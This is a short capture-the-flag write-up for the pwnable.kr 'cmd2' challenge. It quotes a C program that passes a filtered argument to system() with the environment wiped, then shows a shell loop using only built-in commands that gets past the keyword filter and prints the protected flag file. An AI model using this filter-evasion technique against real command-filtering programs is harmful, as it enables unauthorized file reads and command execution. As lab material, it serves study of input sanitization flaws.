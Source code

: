```yaml
---
title: Cmd2 - Pwnable.kr
date: 2016-01-17
categories: [Writeups, Pwnable.kr]
tags: ['Bash', 'Escape restricted env']
image:
    path: "/unsorted/pwnablekr.png"

---
```


Another challenge where we need to escape from a restricted situation. This
time we have complete control on the argument passed the function `system` but,
just to make sure we will not do anything harmful, the content of the
environment is deleted and the content of the argument passed to `system`
filtered.


```c
#include <stdio.h>
#include <string.h>

int filter(char* cmd){
        int r=0;
        r += strstr(cmd, "=")!=0;
        r += strstr(cmd, "PATH")!=0;
        r += strstr(cmd, "export")!=0;
        r += strstr(cmd, "/")!=0;
        r += strstr(cmd, "`")!=0;
        r += strstr(cmd, "flag")!=0;
        return r;
}

extern char** environ;
void delete_env(){
        char** p;
        for(p=environ; *p; p++) memset(*p, 0, strlen(*p));
}

int main(int argc, char* argv[], char** envp){
        delete_env();
        putenv("PATH=/no_command_execution_until_you_become_a_hacker");
        if(filter(argv[1])) return 0;
        printf("%s\n", argv[1]);
        system( argv[1] );
        return 0;
}
```



So, how do we make this program open the file flag in our working directory?
We cannot have access to any program, but there is still a class of commands
that we can use!  The built-in commands (as they don’t use the value of PATH).
This is an fast and dirty example, it allows us to read the first line of flag
but I’m sure you can do a lot better and pawn a shell:

    
```text
cmd2@ubuntu:~$ ./cmd2 'for file in *
> do
> read line < $file
> echo $line
> done';
ELF>@@p@8 @@@@@@��88@8@@@
#include <stdio.h>
FuN_****_*****_*****_haha	<---- That's the flag!
```

